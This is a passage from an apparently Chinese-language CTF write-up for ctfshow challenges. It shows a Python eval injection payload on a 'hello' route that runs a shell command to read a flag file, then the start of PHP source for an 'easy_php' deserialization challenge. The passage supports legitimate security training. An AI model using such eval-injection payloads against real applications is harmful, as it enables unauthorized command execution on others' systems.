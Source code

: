 
有一个hello的路由可以命令执行
payload
`/hello?eval=__import__('os').popen('cat /flag_is_h3re').read()`

![](attachments/Pasted%20image%2020230401132040.png)


### easy_php

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2023-03-24 10:16:33
# @Last Modified by:   h1xa
# @Last Modified time: 2023-03-25 00:25:52
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);

class ctfshow{

    public function __wakeup(){
        die("not allowed!");
    }
```